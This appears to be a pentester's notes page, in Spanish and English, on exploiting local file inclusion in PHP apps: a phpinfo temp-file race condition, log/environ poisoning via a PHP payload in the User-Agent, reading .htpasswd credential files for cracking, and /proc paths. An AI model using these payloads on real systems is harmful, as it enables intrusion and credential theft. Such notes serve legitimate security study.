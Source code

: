 De esta manera se nos proporciona el directorio temporal en el que fue creado, en este ejemplo **\[tmp_name\] =&gt; /tmp/phpLQnUDn** por lo que si ahora, con el **LFI** apuntamos a la ruta **"/tmp/phpLQnUDn/<file_to_upload.extención>"**, no tendríamos nada. Por que? Por que como lo crea, inmediatamente lo borra, ya que es un archivo temporal, por lo que habría que jugar con [[Race Conditions - Condiciones de carrera]] para que en algún momento logre ejecutarse el código de manera óptima.

Obvio que es lo podemos hacer con [scripts](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/phpinfolfi.py) los cuales ya están automatizados 

----
# -> Cheatsheets: + [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion) + [ironhackers](https://ironhackers.es/herramientas/lfi-cheat-sheet/) + [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion) + [OSCP Guide by sushant747](https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html) 

## LFI to RCE via /proc/self/environ

Like a log file, send the payload in the User-Agent, it will be reflected inside the `/proc/self/environ` file 

```powershell 
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1 User-Agent: <?=phpinfo(); ?> 
```

## Credentials File 

For example, if you are exploiting a web service which has a subdomain that asks you for credentials to access (401 status code) and you have the possibility to run a LFI elsewhere, you can try to get the credentials through the .htaccess and .htpasswd files. 

```
/var/www/subdomain/.htpasswd 
```

If the password is encrypted, you can try to crack it using john. 

## See how the program is started

```bash
/proc/self/cmdline
```

## Scheduler Statistics 

```
/proc/schedstat
/proc/self/schedstat 
```

## Looking for process in linux 
